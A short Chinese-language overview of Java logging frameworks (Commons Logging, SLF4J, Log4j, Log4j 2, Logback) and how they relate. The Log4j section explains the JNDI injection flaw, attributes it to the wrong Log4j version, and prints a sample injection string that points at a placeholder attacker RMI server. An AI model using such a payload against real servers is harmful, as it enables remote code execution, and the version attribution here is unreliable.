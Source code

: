 # 常用日志框架

### Apache Commons Logging

是一个通用日志接口，有一个 Simple Logger 的简单实现，功能较弱，通常配合 Log4j 使用

### SLF4J

Simple Logging Facade for Java 是 java.util.logging，Logback，Log4j 的简单外观或抽象，允许用户在部署时插入所需要的日志框架；

切换日志框架时只需要切换类路径下的 SLF4J 绑定，不要绑定多个；

SLF4J 不负责日志的具体实现，只负责寻找合适的日志系统进行绑定。

### Log4j

**Apache Log4j** 是一个非常古老的日志框架，并且是多年来最受欢迎的日志框架。 它引入了现代日志框架仍在使用的基本概念，如分层日志级别和记录器。

Log4j 漏洞：由 JNDI 注入引起，JNDI 可以从远程服务获取资源，JNDI 又支持 RMI。黑客可以启动一个 RMI 服务器，放入相关恶意的代码，访问使用 Log4j 的服务器，并在输入框内输入 `${jndi:rmi://ip:port/evil}`，目标服务器后台就会执行 evil 中的代码。

### Log4j 2

**Apache Log4j 2** 是对 Log4j 的升级，它比其前身 Log4j 提供了重大改进，并提供了 Logback 中可用的许多改进，同时修复了 Logback 架构中的一些固有问题；

与 Logback 一样，Log4j 2 提供对 SLF4J 的支持，自动重新加载日志配置，并支持高级过滤选项。 除了这些功能外，它还允许基于 lambda 表达式对日志语句进行延迟评估，为低延迟系统提供异步记录器，并提供无垃圾模式以避免由垃圾收集器操作引起的任何延迟；

所有这些功能使 Log4j 2 成为这三个日志框架中最先进和最快的。

### Logback

**Logback** 是由 Log4j 创始人设计的又一个开源日志组件，作为流行的 Log4j 项目的后续版本，从而替代 Log4j；

Logback 的体系结构足够通用，以便在不同情况下应用。 目前，Logback 分为三个模块：logback-core，logback-classic 和 logback-access。

- logback-core：模块为其他两个模块的基础；
- logback-classic：模块可以被看做是 Log4j 的改进版本。此外，logback-classic 本身实现了 SLF4J API，因此可以在 Logback 和其他日志框架（如 Log4j 或 java.util.logging）之间来回切换；
- logback-access：模块与 Servlet 容器（如 Tomcat 和 Jetty）集成，以提供 HTTP 访问日志功能。

